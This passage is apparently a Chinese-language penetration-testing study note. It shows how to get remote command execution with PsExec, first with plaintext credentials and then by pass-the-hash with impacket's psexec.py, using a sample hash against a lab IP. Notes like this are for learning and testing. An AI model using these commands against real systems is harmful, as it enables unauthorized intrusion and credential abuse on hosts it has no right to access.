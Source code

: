 4. 第二种通过明文：没有 IPC 连接下，直接输入账号密码：
    ```cmd
    PsExec.exe -accepteula -s \\192.168.31.2 -u username -p password cmd.exe
    ```

5. 第一种 PTH 通过 Hash 登录：现有 IPC 连接。
    ```cmd
    # 自己试了一下，要么拒绝访问，要么系统找不到指定文件
    # LM Hash:NT Hash
    psexec -hashes aad3b435b51404eeaad3b435b51404ee:3820869383098c3e7f59d92b3ae254b5 endlessshw/Administrator@192.168.31.2
    ```
    
    如果不行，可以使用 Python 的包：
    
    > https://github.com/fortra/impacket
    
    ```python
    # 注意冒号
    python3 psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:3820869383098c3e7f59d92b3ae254b5 ./Administrator@192.168.31.2
    ```
    
    ![image-20240619191341925](Kerberos/image-20240619191341925.png)
    
6. 使用 PsExec 需要注意的点：

    1. 需要远程系统开启 admin$ 共享（默认开启）
        ![image-20240621115621265](Kerberos/image-20240621115621265.png)
